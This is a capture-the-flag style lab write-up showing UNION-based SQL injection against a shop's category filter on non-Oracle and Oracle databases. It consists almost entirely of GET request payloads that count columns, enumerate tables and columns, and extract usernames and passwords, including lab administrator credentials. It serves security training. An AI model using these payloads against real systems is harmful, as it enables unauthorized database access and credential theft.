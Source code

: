 
# Lab: SQL injection attack, listing the database contents on non-Oracle databases

```py
GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL-- HTTP/1.1


# the query is returning two columns, both of which contain text:
GET /filter?category=Gifts'+UNION+SELECT+'a','b'-- HTTP/1.1


# retrieve the list of tables in the database:
GET /filter?category=Gifts'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- HTTP/1.1


# to retrieve the details of the columns in the table:
GET /filter?category=Gifts'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_xdegjh'-- HTTP/1.1


# Find the names of the columns containing usernames and passwords:
# password_ctlwsz
# username_uxtvsq


# to retrieve the usernames and passwords for all users:
GET /filter?category=Gifts'+UNION+SELECT+username_uxtvsq,+password_ctlwsz+FROM+users_xdegjh-- HTTP/1.1
# wiener
# d9r5zvpv3nbxczx2v0bk
# carlos
# 5f3wthoz0nu4ulp0dd2a
# administrator
# ln74j8tz14byaapmx6gw

```

---

# Lab: SQL injection attack, listing the database contents on Oracle databases

> On Oracle databases, every SELECT statement must specify a table to select FROM.
> If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.
> There is a built-in table on Oracle: UNION SELECT 'abc' FROM DUAL


```py
# the query is returning two columns, both of which contain text,:
GET /filter?category=Gifts'+UNION+SELECT+NULL,NULL+FROM+DUAL-- HTTP/1.1
GET /filter?category=Gifts'+UNION+SELECT+'a','b'+FROM+DUAL-- HTTP/1.1


# retrieve the list of tables in the database::
GET /filter?category=Gifts'+UNION+SELECT+table_name,NULL+FROM+all_tables-- HTTP/1.1


# retrieve the details of the columns in the table:
GET /filter?category=Gifts'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_VAGUZR'-- HTTP/1.1
# PASSWORD_NBSZJM
# USERNAME_GHYBLH
```